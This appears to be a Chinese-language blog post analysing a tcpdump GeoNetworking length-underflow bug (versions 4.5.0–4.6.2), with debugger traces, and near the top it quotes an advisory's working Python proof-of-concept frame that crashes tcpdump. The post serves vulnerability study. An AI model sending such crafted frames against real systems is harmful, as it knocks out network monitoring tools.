

Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
作者给出的应该是fuzzing的代码，写上一篇分析的时候我以为是作者手动构造的，后来想了想，如果是手动构造应该更偏向无限大（长度字段），而不是\x02\x02\x02\x02
所以省略些不必要的，来看关键的，在geonet_print()函数中存在漏洞，我们分析过前一篇文章中的漏洞之后，其实这里可以猜测就是读取了不可读的内存导致的拒绝服务
3. Technical Description
The application decoder for the geonet protocol fails to perform
external input validation and performs insufficient checking on length
computations leading to an unsafe decrement and underflow in the function
geonet_print(netdissect_options *ndo, const u_char *eth, const u_char
*bp, u_int length)
The affected variable is length which is later on used to print a memory
chunk which eventually leads to a segfault. The function contains
several unsafe computations updating the length variable.
To reproduce start tcpdump on a network interface
sudo tcpdump -i lo -s 0 -n -v
(running the program with sudo might hide the segfault message on
certain environments, see dmesg for details)
and use the following python program to generate a frame on the network
(might also need sudo):
#!/usr/bin/env python
from socket import socket, AF_PACKET, SOCK_RAW
s = socket(AF_PACKET, SOCK_RAW)
s.bind(("lo", 0))
geonet_frame =
"\x00\x1f\xc6\x51\x07\x07\x07\x07\x07\x07\x07\x07\x07\x07\xc6\x51\x07\x07\x07\x07\x07\x07\xef\x06\x07\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\x00\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x01\x01\x01\x99\x80\x00\x35\x00\x29\x16\xa5\x01\x76\x01\x00\x00\xff\x00\x00\x01\x00\x00\x00"
s.send(geonet_frame)
4. Affected versions
Affected versions are 4.5.0 through 4.6.2
(segfaults were reproducible in versions up to 4.6.1 on Ubuntu 14.04,
but not reliably in 4.6.2. Code audit showed that unsafe computations
are performed in 4.6.2, but the trigger frame might need to look different).
5. Fix
The problem is fixed in the upcoming version tcpdump 4.7.0
我们使用4.5.1版本，下载编译参考
先测试Poc的有效性，gdb调试模式启动tcpdump
wnagzihxain@toT0C:~$ sudo gdb tcpdump
设置参数
gdb-peda$ set args -i ens33 -s 0 -n -v
跑起来，运行Poc，发现持续的数据输出，可以确定是读取指针指向内存的时候没有判断边界的问题，最后读到了不可读的内存
回溯函数调用栈，可以看到如作者所说，是由geonet_print()开始触发的，最后是在hex_and_ascii_print_with_offset()进行读取操作造成直接崩溃，但是漏洞成因还是在前面那个函数里
gdb-peda$ bt
#0 0x080547ee in hex_and_ascii_print_with_offset ()
#1 0x08054a2e in hex_and_ascii_print ()
#2 0x080c2e1a in ndo_default_print ()
#3 0x080c2e3a in default_print ()
#4 0x0806f7d1 in geonet_print ()
#5 0x0806ae5b in ethertype_print ()
#6 0x0806a8b2 in ether_print ()
#7 0x0806a951 in ether_if_print ()
#8 0x080c2c7f in print_packet ()
#9 0x080ef63e in pcap_handle_packet_mmap (handle=handle@entry=0x8235058, callback=callback@entry=0x80c2c13 <print_packet>, user=user@entry=0xbfffe46c " :#\b+\251\006\b\001", frame=0xb7a36420 "\250", tp_len=0x4b, tp_mac=0x56,
tp_snaplen=0x4b, tp_sec=0x5a4d9f9a, tp_usec=0xb4723, tp_vlan_tci_valid=0x0, tp_vlan_tci=0x0) at ./pcap-linux.c:4264
#10 0x080f3884 in pcap_read_linux_mmap_v3 (handle=0x8235058, max_packets=0xffffffff, callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001") at ./pcap-linux.c:4429
#11 0x080d9da9 in pcap_loop (p=0x8235058, cnt=<optimized out>, callback=0x80c2c13 <print_packet>, user=0xbfffe46c " :#\b+\251\006\b\001") at ./pcap.c:856
#12 0x080c2229 in main ()
#13 0xb7c34637 in __libc_start_main (main=0x80c083a <main>, argc=0x7, argv=0xbffff654, init=0x80f7300 <__libc_csu_init>, fini=0x80f7360 <__libc_csu_fini>, rtld_fini=0xb7fea8a0 <_dl_fini>, stack_end=0xbffff64c)
at ../csu/libc-start.c:291
#14 0x0804a3d3 in _start ()
所以我们查看其源码，发现传入的有四个参数，需要调试过程中确定
void
geonet_print(netdissect_options *ndo, const u_char *eth, const u_char *bp, u_int length)
确定传入的参数，可以确定第一个参数是传入的数据首地址指针，第二个同样指向数据帧，第三个跳过了前两字节，指向数据帧，第四个是整个数据帧长度
[----------------------------------registers-----------------------------------]
EAX: 0xb7a16086 --> 0x51c61f00
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x4b ('K')
EDX: 0x4b ('K')
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe1cc --> 0x806ae5b (<ethertype_print+1072>: add esp,0x10)
EIP: 0x806f47d (<geonet_print>: push ebp)
EFLAGS: 0x200292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806f47a <print_long_pos_vector+184>: nop
0x806f47b <print_long_pos_vector+185>: leave
0x806f47c <print_long_pos_vector+186>: ret
=> 0x806f47d <geonet_print>: push ebp
0x806f47e <geonet_print+1>: mov ebp,esp
0x806f480 <geonet_print+3>: sub esp,0x38
0x806f483 <geonet_print+6>: mov eax,DWORD PTR [ebp+0xc]
0x806f486 <geonet_print+9>: add eax,0x6
[------------------------------------stack-------------------------------------]
0000| 0xbfffe1cc --> 0x806ae5b (<ethertype_print+1072>: add esp,0x10)
0004| 0xbfffe1d0 --> 0x8233a20 --> 0x0
0008| 0xbfffe1d4 --> 0xb7a16086 --> 0x51c61f00
0012| 0xbfffe1d8 --> 0xb7a16094 --> 0x70751c6
0016| 0xbfffe1dc --> 0x3d ('=')
0020| 0xbfffe1e0 --> 0x1
0024| 0xbfffe1e4 --> 0x1
0028| 0xbfffe1e8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 5, 0x0806f47d in geonet_print ()
gdb-peda$ x/16x $eax
0xb7a16086: 0x51c61f00 0x07070707 0x07070707 0x51c60707
0xb7a16096: 0x07070707 0x06ef0707 0x00973507 0xdf7a8c24
0xb7a160a6: 0x4500086f 0xf33d0000 0x4000407f 0x0ac63011
0xb7a160b6: 0x0a680101 0x99010101 0x00350080 0x01a51629
然后我们使用IDA来分析，打断点的指令就是存在漏洞的地方，可以看到就是循环开始，在分析了后面的指令后，发现该指令只进行了指针的自加一，没有判断边界的问题，这是直接的拒绝服务触发原因

然后我们来找造成这个拒绝服务的地方
我们看到取值进行自加一的指针是传入的第二个参数，那么根据参数进行回溯，看看这个参数是哪个地方传进来的
void hex_and_ascii_print_with_offset(register const char *ident, register const u_char *cp, register u_int length, register u_int oset)
void hex_and_ascii_print(register const char *ident, register const u_char *cp, register u_int length)
static void ndo_default_print(netdissect_options *ndo _U_, const u_char *bp, u_int length)
default_print(bp, length);
在经过了几次的回溯之后，我们发现传入的bp指针对应着最后函数的cp参数，接下来我们在geonet_print()中分析default_print(bp, length)的两个参数是如何计算的
首先是判断数据帧的长度，因为在调试的时候发现传入的长度是0x3d，所以这里满足条件
if (length >= 36)
解析数据
/* Process Common Header */
int version = bp[0] >> 4;
int next_hdr = bp[0] & 0x0f;
int hdr_type = bp[1] >> 4;
int hdr_subtype = bp[1] & 0x0f;
u_int16_t payload_length = EXTRACT_16BITS(bp+4);
int hop_limit = bp[7];
const char *next_hdr_txt = "Unknown";
const char *hdr_type_txt = "Unknown";
int hdr_size = -1;
通过调试，对应如下
int version = 0x0c
int next_hdr = 0x06
int hdr_type = 0x05
hdr_subtype = 0x01
u_int16_t payload_length = 0x0707
int hop_limit = 0x07
const char *next_hdr_txt = "Unknown";
const char *hdr_type_txt = "Unknown";
int hdr_size = -1;
然后后面的各种分支就可以分析了
两个switch不重要，减去头部长度，然后指针指向下一个待分析的数据
length -= 36;
bp += 36;
hdr_type字段之前解析出是0x05
/* Process Extended Headers */
switch (hdr_type) {
case 0: /* Any */
hdr_size = 0;
break;
case 1: /* Beacon */
hdr_size = 0;
break;
case 2: /* GeoUnicast */
break;
case 3: switch (hdr_subtype) {
case 0: /* GeoAnycastCircle */
break;
case 1: /* GeoAnycastRect */
break;
case 2: /* GeoAnycastElipse */
break;
}
break;
case 4: switch (hdr_subtype) {
case 0: /* GeoBroadcastCircle */
break;
case 1: /* GeoBroadcastRect */
break;
case 2: /* GeoBroadcastElipse */
break;
}
break;
case 5: switch (hdr_subtype) {
case 0: /* TopoScopeBcast-SH */
hdr_size = 0;
break;
case 1: /* TopoScopeBcast-MH */
hdr_size = 68 - 36;
break;
}
break;
case 6: switch (hdr_subtype) {
case 0: /* LocService-Request */
break;
case 1: /* LocService-Reply */
break;
}
break;
}
因为hdr_type是0x05，所以进入第二个switch，第二个hdr_subtype是0x01，所以hdr_size是32
case 5: switch (hdr_subtype) {
case 0: /* TopoScopeBcast-SH */
hdr_size = 0;
break;
case 1: /* TopoScopeBcast-MH */
hdr_size = 68 - 36;
break;
}
break;
前面计算出hdr_size是32，这里会进入，但只是给两个字段做一下处理，并没有进入switch
/* Skip Extended headers */
if (hdr_size >= 0) {
length -= hdr_size;
bp += hdr_size;
switch (next_hdr) {
case 0: /* Any */
break;
case 1:
case 2: /* BTP A/B */
print_btp(bp);
length -= 4;
bp += 4;
print_btp_body(bp, length);
break;
case 3: /* IPv6 */
break;
}
}
但是问题就在这里，当程序跳过了0x20字节的头部数据后，只剩0x19字节
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x7ffffff1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe190 --> 0x8164224 --> 0xb7c656a0 (<__snprintf>: push ebx)
EIP: 0x806f761 (<geonet_print+740>: sub DWORD PTR [ebp+0x14],eax)
EFLAGS: 0x200202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806f758 <geonet_print+731>: cmp DWORD PTR [ebp-0x20],0x0
0x806f75c <geonet_print+735>: js 0x806f7b9 <geonet_print+828>
0x806f75e <geonet_print+737>: mov eax,DWORD PTR [ebp-0x20]
=> 0x806f761 <geonet_print+740>: sub DWORD PTR [ebp+0x14],eax
0x806f764 <geonet_print+743>: mov eax,DWORD PTR [ebp-0x20]
0x806f767 <geonet_print+746>: add DWORD PTR [ebp+0x10],eax
0x806f76a <geonet_print+749>: mov eax,DWORD PTR [ebp-0x18]
0x806f76d <geonet_print+752>: cmp eax,0x2
[------------------------------------stack-------------------------------------]
0000| 0xbfffe190 --> 0x8164224 --> 0xb7c656a0 (<__snprintf>: push ebx)
0004| 0xbfffe194 --> 0xb7fe98c2 (<_dl_fixup+194>: mov edi,eax)
0008| 0xbfffe198 --> 0xb7fffad0 --> 0xb7fffa74 --> 0xb7ffd308 --> 0xb7fff918 --> 0x0
0012| 0xbfffe19c --> 0x707d340
0016| 0xbfffe1a0 --> 0x8106c82 ("Unknown")
0020| 0xbfffe1a4 --> 0x8106d2b ("TopoScopeBcast-MH")
0024| 0xbfffe1a8 --> 0x20 (' ')
0028| 0xbfffe1ac --> 0xc ('\x0c')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0806f761 in geonet_print ()
gdb-peda$ x/x $ebp+0x14
0xbfffe1dc: 0x00000019
再次减去0x20字节，成为负值
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x7ffffff1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe190 --> 0x8164224 --> 0xb7c656a0 (<__snprintf>: push ebx)
EIP: 0x806f764 (<geonet_print+743>: mov eax,DWORD PTR [ebp-0x20])
EFLAGS: 0x200287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806f75c <geonet_print+735>: js 0x806f7b9 <geonet_print+828>
0x806f75e <geonet_print+737>: mov eax,DWORD PTR [ebp-0x20]
0x806f761 <geonet_print+740>: sub DWORD PTR [ebp+0x14],eax
=> 0x806f764 <geonet_print+743>: mov eax,DWORD PTR [ebp-0x20]
0x806f767 <geonet_print+746>: add DWORD PTR [ebp+0x10],eax
0x806f76a <geonet_print+749>: mov eax,DWORD PTR [ebp-0x18]
0x806f76d <geonet_print+752>: cmp eax,0x2
0x806f770 <geonet_print+755>: jg 0x806f77b <geonet_print+766>
[------------------------------------stack-------------------------------------]
0000| 0xbfffe190 --> 0x8164224 --> 0xb7c656a0 (<__snprintf>: push ebx)
0004| 0xbfffe194 --> 0xb7fe98c2 (<_dl_fixup+194>: mov edi,eax)
0008| 0xbfffe198 --> 0xb7fffad0 --> 0xb7fffa74 --> 0xb7ffd308 --> 0xb7fff918 --> 0x0
0012| 0xbfffe19c --> 0x707d340
0016| 0xbfffe1a0 --> 0x8106c82 ("Unknown")
0020| 0xbfffe1a4 --> 0x8106d2b ("TopoScopeBcast-MH")
0024| 0xbfffe1a8 --> 0x20 (' ')
0028| 0xbfffe1ac --> 0xc ('\x0c')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0806f764 in geonet_print ()
gdb-peda$ x/x $ebp+0x14
0xbfffe1dc: 0xfffffff9
最后到达调用的地方
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x8164000 --> 0x8163ef0 --> 0x1
ECX: 0x7ffffff1
EDX: 0xb7dcf870 --> 0x0
ESI: 0x8235058 --> 0x80f3790 (<pcap_read_linux_mmap_v3>: push ebp)
EDI: 0x0
EBP: 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 --> 0x4b ('K')
ESP: 0xbfffe180 --> 0xb7a160d8 --> 0x0
EIP: 0x806f7cc (<geonet_print+847>: call 0x80c2e20 <default_print>)
EFLAGS: 0x200296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x806f7c3 <geonet_print+838>: sub esp,0x8
0x806f7c6 <geonet_print+841>: push DWORD PTR [ebp+0x14]
0x806f7c9 <geonet_print+844>: push DWORD PTR [ebp+0x10]
=> 0x806f7cc <geonet_print+847>: call 0x80c2e20 <default_print>
0x806f7d1 <geonet_print+852>: add esp,0x10
0x806f7d4 <geonet_print+855>: nop
0x806f7d5 <geonet_print+856>: leave
0x806f7d6 <geonet_print+857>: ret
Guessed arguments:
arg[0]: 0xb7a160d8 --> 0x0
arg[1]: 0xfffffff9
[------------------------------------stack-------------------------------------]
0000| 0xbfffe180 --> 0xb7a160d8 --> 0x0
0004| 0xbfffe184 --> 0xfffffff9
0008| 0xbfffe188 --> 0x1
0012| 0xbfffe18c --> 0x8106d2b ("TopoScopeBcast-MH")
0016| 0xbfffe190 --> 0x8164224 --> 0xb7c656a0 (<__snprintf>: push ebx)
0020| 0xbfffe194 --> 0xb7fe98c2 (<_dl_fixup+194>: mov edi,eax)
0024| 0xbfffe198 --> 0xb7fffad0 --> 0xb7fffa74 --> 0xb7ffd308 --> 0xb7fff918 --> 0x0
0028| 0xbfffe19c --> 0x707d340
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0806f7cc in geonet_print ()
然后就拼命输出了，最后读取到了不可读的内存造成了拒绝服务
整个触发过程就是上面这些
今天收获了人生的第一波CVE，和李神探一起发现的，李神探炒鸡棒棒~~~
开心了一整天:)